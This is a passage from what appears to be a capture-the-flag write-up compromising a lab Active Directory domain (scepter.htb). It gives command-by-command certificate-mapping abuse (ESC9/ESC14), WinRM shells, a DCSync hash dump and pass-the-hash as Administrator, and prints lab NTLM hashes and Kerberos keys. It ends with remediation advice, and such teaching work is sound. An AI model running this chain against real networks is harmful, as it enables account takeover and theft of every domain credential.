    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SCEPTER.HTB\staff
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
```

**Finding:** `StaffAccessCertificate` template has `NoSecurityExtension` (ESC9) and is enrollable by the `staff` group. `d.baker` is a member of `staff`, so `d.baker` can request certificates from this template.

---

## 9. Finding h.brown (ESC14 Target)

### 9.1 Understanding ESC14

**ESC14** abuses the `altSecurityIdentities` attribute — a field on a user object that lets administrators map alternate credentials (such as a certificate's email address, via `X509:<RFC822>email@domain.com`) onto that user for authentication purposes. When a certificate contains no strong SID binding (as with ESC9 templates) but its subject email happens to match the `altSecurityIdentities` mapping of a different, unrelated user, Active Directory can end up authenticating the certificate holder *as that other user* — because the weak identity field is all AD has to go on.

The combined ESC9 + ESC14 abuse therefore works like this: get a certificate issued to yourself from a `NoSecurityExtension` template, but with the *target's* email address written into it, and AD will authenticate you as the target instead of yourself.

### 9.2 Querying for altSecurityIdentities

An `altSecurityIdentities` mapping already needs to exist on some user for this to work, so LDAP is queried for any user object carrying that attribute.

```bash
hyena@hyena$ netexec ldap dc01.scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --query "(&(objectClass=user)(altSecurityIdentities=*))" "samaccountname altSecurityIdentities memberOf"
LDAP        10.129.244.44   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb) (signing:None) (channel binding:Never)
LDAP        10.129.244.44   389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce
LDAP        10.129.244.44   389    DC01             [+] Response for object: CN=h.brown,CN=Users,DC=scepter,DC=htb
LDAP        10.129.244.44   389    DC01             memberOf             CN=CMS,CN=Users,DC=scepter,DC=htb
LDAP        10.129.244.44   389    DC01                                  CN=Helpdesk Admins,CN=Users,DC=scepter,DC=htb
LDAP        10.129.244.44   389    DC01                                  CN=Protected Users,CN=Users,DC=scepter,DC=htb
LDAP        10.129.244.44   389    DC01                                  CN=Remote Management Users,CN=Builtin,DC=scepter,DC=htb
LDAP        10.129.244.44   389    DC01             sAMAccountName       h.brown
LDAP        10.129.244.44   389    DC01             altSecurityIdentities X509:<RFC822>h.brown@scepter.htb
```

**Finding:** `h.brown` has `altSecurityIdentities: X509:<RFC822>h.brown@scepter.htb` and is a member of `Remote Management Users`, which grants WinRM logon rights — making `h.brown` a very attractive target, since impersonating this user leads straight to a shell.



---

## 10. ESC9 + ESC14 Attack (h.brown)

### 10.1 Understanding the Combined Attack

Putting the pieces together, the attack chain against `h.brown` runs as follows:

1. `d.baker`, as a member of `staff`, is allowed to enroll for the `StaffAccessCertificate` template (ESC9: `NoSecurityExtension`).
2. That template requires the certificate's SAN to carry an email address (`SubjectAltRequireEmail`), and Active Directory pulls that email straight from the requesting user's `mail` attribute at issuance time.
3. So, before requesting, `d.baker`'s own `mail` attribute is overwritten to `h.brown@scepter.htb` — the same value used in `h.brown`'s `altSecurityIdentities` mapping.
4. A certificate is requested as `d.baker`; because of the template's `SubjectAltRequireEmail` flag, the resulting certificate's SAN email field is `h.brown@scepter.htb`.
5. When that certificate is used to authenticate, AD has no strong SID binding to go on (ESC9) and instead matches the SAN email against `altSecurityIdentities` values — finding `h.brown`'s mapping and authenticating the session as `h.brown`.

### 10.2 Granting a.carter FullControl

Changing `d.baker`'s `mail` attribute requires a.carter (already confirmed Domain Admin) to have write access over the relevant OU, so FullControl is granted first.

```bash
hyena@hyena$ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'Helloworld123!' add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter
[+] a.carter has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB
```

### 10.3 Changing d.baker's Email

```bash
hyena@hyena$ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'Helloworld123!' set object d.baker mail -v h.brown@scepter.htb
[+] d.baker's mail has been updated
```

### 10.4 Requesting Certificate as d.baker

```bash
hyena@hyena$ certipy req -username 'd.baker@scepter.htb' -hashes :18b5fb0d99e7a475316213c15b6f22ce -target dc01.scepter.htb -dc-ip 10.129.244.44 -ca scepter-DC01-CA -template StaffAccessCertificate
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 15
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'd.baker.pfx'
[*] Wrote certificate and private key to 'd.baker.pfx'
```

### 10.5 Getting h.brown's SID

Because the resulting certificate carries no strong SID binding, `certipy auth` needs to be told explicitly which user's SID it should attempt to authenticate as.

```bash
hyena@hyena$ netexec ldap 10.129.244.44 -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --query "(samaccountname=h.brown)" "objectsid"
LDAP        10.129.244.44   389    DC01             [+] Response for object: CN=h.brown,CN=Users,DC=scepter,DC=htb
LDAP        10.129.244.44   389    DC01             objectSid            S-1-5-21-74879546-916818434-740295365-1108
```

### 10.6 Authenticating as h.brown

```bash
hyena@hyena$ certipy auth -pfx d.baker.pfx -u h.brown -domain scepter.htb -sid S-1-5-21-74879546-916818434-740295365-1108 -dc-ip 10.129.244.44
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'h.brown@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'h.brown.ccache'
[*] Wrote credential cache to 'h.brown.ccache'
[*] Trying to retrieve NT hash for 'h.brown'
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c
```

**h.brown NTLM Hash:** `4ecf5242092c6fb8c360a08069c75a0c`


---

## 11. h.brown Shell (User Flag)

### 11.1 WinRM Access

`h.brown` is a member of `Remote Management Users`, which grants permission to open a WinRM session — the Windows Remote Management protocol used to establish a remote PowerShell shell on port 5985/5986.

```bash
hyena@hyena$ evil-winrm -i 10.129.244.44 -u h.brown -H 4ecf5242092c6fb8c360a08069c75a0c
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\h.brown\Documents> whoami
scepter\h.brown

*Evil-WinRM* PS C:\Users\h.brown\Documents> cd ..\Desktop

*Evil-WinRM* PS C:\Users\h.brown\Desktop> ls

    Directory: C:\Users\h.brown\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---           6/21/2026  1:54 PM             34 user.txt

*Evil-WinRM* PS C:\Users\h.brown\Desktop> type user.txt
[USER FLAG CONTENT]
```

**User Flag Captured!** ✅

---

## 12. p.adams Attack (DCSync)

### 12.1 Enumerating Permissions with PowerView

PowerView is a PowerShell reconnaissance toolkit for Active Directory. It's uploaded to the target and used from within the `h.brown` session to find other users with a `WriteProperty` right over the `altSecurityIdentities` attribute — since that's exactly the write primitive the ESC9+ESC14 chain depends on.

```bash
*Evil-WinRM* PS C:\Users\h.brown\Documents> upload /usr/share/powershell/PowerView.ps1
*Evil-WinRM* PS C:\Users\h.brown\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\h.brown\Documents> $cms = ConvertTo-Sid "CMS"
*Evil-WinRM* PS C:\Users\h.brown\Documents> $helpdesk = ConvertTo-Sid "HELPDESK ADMINS"
*Evil-WinRM* PS C:\Users\h.brown\Documents> Get-DomainObjectACL -ResolveGUIDs -Identity * | Where-Object {($_.SecurityIdentifier -eq $cms) -or ($_.SecurityIdentifier -eq $helpdesk)}
```

**Finding:** `Helpdesk Admins` — a group `h.brown` belongs to — has `WriteProperty` over `p.adams`'s `Alt-Security-Identities` attribute. This means `h.brown` can directly write a brand-new certificate mapping onto `p.adams`, rather than needing one to already exist as with `h.brown` itself.

### 12.2 Setting altSecurityIdentities for p.adams

```bash
hyena@hyena$ export KRB5CCNAME=h.brown.ccache
hyena@hyena$ bloodyAD --host dc01.scepter.htb -d scepter.htb -u h.brown -p ':4ecf5242092c6fb8c360a08069c75a0c' set object p.adams altSecurityIdentities -v 'X509:<RFC822>p.adams@scepter.htb'
[+] p.adams's altSecurityIdentities has been updated
```

### 12.3 Changing d.baker's Email to p.adams

```bash
hyena@hyena$ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'Helloworld123!' set object d.baker mail -v p.adams@scepter.htb
[+] d.baker's mail has been updated
```

### 12.4 Requesting Certificate as d.baker (Again)

The same ESC9+ESC14 pattern from Section 10 is repeated, targeting `p.adams` this time.

```bash
hyena@hyena$ certipy req -username 'd.baker@scepter.htb' -hashes :18b5fb0d99e7a475316213c15b6f22ce -target dc01.scepter.htb -ca scepter-DC01-CA -template StaffAccessCertificate
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 17
[*] Successfully requested certificate
[*] Got certificate without identity
[*] Certificate has no object SID
[*] Saving certificate and private key to 'd.baker.pfx'
[*] Wrote certificate and private key to 'd.baker.pfx'
```

### 12.5 Authenticating as p.adams

```bash
hyena@hyena$ certipy auth -pfx d.baker.pfx -u p.adams -domain scepter.htb -dc-ip 10.129.244.44
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Using principal: 'p.adams@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'p.adams.ccache'
[*] Wrote credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0
```

**p.adams NTLM Hash:** `1b925c524f447bb821a8789c4b118ce0`

### 12.6 DCSync Attack

**DCSync** abuses the Directory Replication Service Remote Protocol (DRSUAPI) — the same protocol legitimate domain controllers use to replicate the NTDS.dit password database between each other. Any account holding the `Replicating Directory Changes` and `Replicating Directory Changes All` extended rights (normally reserved for Domain Controllers and Domain Admins) can impersonate a DC and request a full copy of every account's password hash, without ever touching the DC's disk.

```bash
hyena@hyena$ impacket-secretsdump -hashes :1b925c524f447bb821a8789c4b118ce0 scepter.htb/p.adams@dc01.scepter.htb
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c030fca580038cc8b1100ee37064a4a9:::
scepter.htb\d.baker:1106:aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce:::
scepter.htb\a.carter:1107:aad3b435b51404eeaad3b435b51404ee:c068bcc3c0dcd03cd84df5af2192ad8a:::
scepter.htb\h.brown:1108:aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c:::
scepter.htb\p.adams:1109:aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:cc5d676d45f8287aef2f1abcd65213d9575c86c54c9b1977935983e28348bcd5
Administrator:aes128-cts-hmac-sha1-96:bb557b22bad08c219ce7425f2fe0b70c
krbtgt:aes256-cts-hmac-sha1-96:5d62c1b68af2bb009bb4875327edd5e4065ef2bf08e38c4ea0e609406d6279ee
krbtgt:aes128-cts-hmac-sha1-96:b9bc4dc299fe99a4e086bbf2110ad676
```



---

## 13. Administrator Shell (Root Flag)

### 13.1 Pass-the-Hash as Administrator

With the Administrator NTLM hash in hand, a WinRM session can be opened directly using pass-the-hash — no plaintext password ever required.

```bash
hyena@hyena$ evil-winrm -i 10.129.244.44 -u Administrator -H a291ead3493f9773dc615e66c2ea21c4
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop

*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---           7/23/2026  1:45 AM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
[ROOT FLAG CONTENT]
```



**Root Flag Captured!** 🏆


---

## 14. Attack Chain

```
Full port scan → NFS (port 2049) discovered
        ↓
showmount → /helpdesk (everyone) discovered
        ↓
mount NFS → Certificates found (CRT, KEY, PFX)
        ↓
pfx2john + john → newpassword cracked
        ↓
clark/lewis/scott → REVOKED ❌
        ↓
baker.crt + baker.key → d.baker NTLM hash ✅
        ↓
BloodHound → d.baker → ForceChangePassword → a.carter
        ↓
bloodyAD set password → a.carter:Helloworld123!
        ↓
a.carter is Domain Admin ✅
        ↓
certipy find → StaffAccessCertificate → ESC9
        ↓
netexec ldap → h.brown has altSecurityIdentities mapping
        ↓
bloodyAD add genericAll → FullControl on OU
        ↓
bloodyAD set object mail → d.baker's email → h.brown@scepter.htb
        ↓
certipy req → Request certificate as d.baker
        ↓
certipy auth → h.brown NTLM hash
        ↓
evil-winrm → h.brown WinRM shell → user flag ✅
        ↓
PowerView → Helpdesk Admins have WriteProperty on p.adams
        ↓
bloodyAD set object altSecurityIdentities → p.adams mapping
        ↓
bloodyAD set object mail → d.baker's email → p.adams@scepter.htb
        ↓
certipy req → Request certificate as d.baker
        ↓
certipy auth → p.adams NTLM hash
        ↓
impacket-secretsdump → DCSync → All domain hashes
        ↓
evil-winrm → Administrator shell → root flag ✅
```

---

## 15. Full Results Summary

| Item | Value |
|:-----|:------|
| **Target** | scepter.htb (10.129.244.44) |
| **Domain Controller** | dc01.scepter.htb |
| **Initial Foothold** | d.baker |
| **Domain Admin** | a.carter |
| **User Flag** | Captured from h.brown |
| **Root Flag** | Captured from Administrator |

### Credentials Obtained

| User | NTLM Hash |
|:-----|:----------|
| **d.baker** | `18b5fb0d99e7a475316213c15b6f22ce` |
| **a.carter** | `c068bcc3c0dcd03cd84df5af2192ad8a` |
| **h.brown** | `4ecf5242092c6fb8c360a08069c75a0c` |
| **p.adams** | `1b925c524f447bb821a8789c4b118ce0` |
| **Administrator** | `a291ead3493f9773dc615e66c2ea21c4` |
| **krbtgt** | `c030fca580038cc8b1100ee37064a4a9` |

### Tools Used

| Tool | Purpose |
|:-----|:--------|
| **nmap** | Port scanning and service enumeration |
| **showmount** | NFS export discovery |
| **pfx2john** | PFX hash extraction |
| **john** | Password cracking |
| **openssl** | Certificate manipulation |
| **certipy** | ADCS enumeration and exploitation |
| **bloodyAD** | AD manipulation (password reset, email change) |
| **bloodhound-ce-python** | Attack path analysis |
| **evil-winrm** | WinRM shell access |
| **impacket-secretsdump** | DCSync attack |
| **PowerView** | Permission enumeration |

---

## 16. Root Cause & Remediation

| # | Root Cause | Recommendation |
|---|------------|----------------|
| 1 | NFS share exposed with `(everyone)` access | Restrict NFS exports to specific IPs/networks; require authentication; avoid storing sensitive files on NFS shares |
| 2 | Certificates stored on a publicly accessible NFS share | Store certificate files in secure locations with proper ACLs; never store private keys on network shares |
| 3 | Weak PFX password (`newpassword`) | Enforce strong password policies for all certificate files; use password managers |
| 4 | Password reuse across certificates | Use unique passwords for each certificate/account |
| 5 | d.baker has `ForceChangePassword` over a.carter | Review and restrict password reset permissions; implement approval workflows for password resets |
| 6 | `StaffAccessCertificate` template has `NoSecurityExtension` (ESC9) | Remove the `NoSecurityExtension` flag; add proper security extensions; restrict enrollment groups |
| 7 | `altSecurityIdentities` mapping for h.brown | Audit and remove unnecessary `altSecurityIdentities` mappings; use strong certificate binding |
| 8 | Helpdesk Admins have `WriteProperty` on `altSecurityIdentities` | Restrict who can modify `altSecurityIdentities`; audit permissions regularly |
| 9 | p.adams has DCSync privileges | Limit DCSync permissions to only necessary accounts; monitor for DCSync attempts |
| 10 | Weak password reset (a.carter's password) | Enforce strong passwords; implement MFA for admin accounts |

---

*Assessment carried out by RavenHex from hyena@hyena against 10.129.244.44 (scepter.htb). Screenshots referenced above (`Scepter_Intro.png`, `d..baker_hash.png`, `Bloodhound_result.png`, `Check_user_with_RDP.png`, `Dumping_all_hashes.png`, `Got_shell_as_administrator.png`, `pwned.png`) are included as proof-of-concept evidence for their respective steps.*
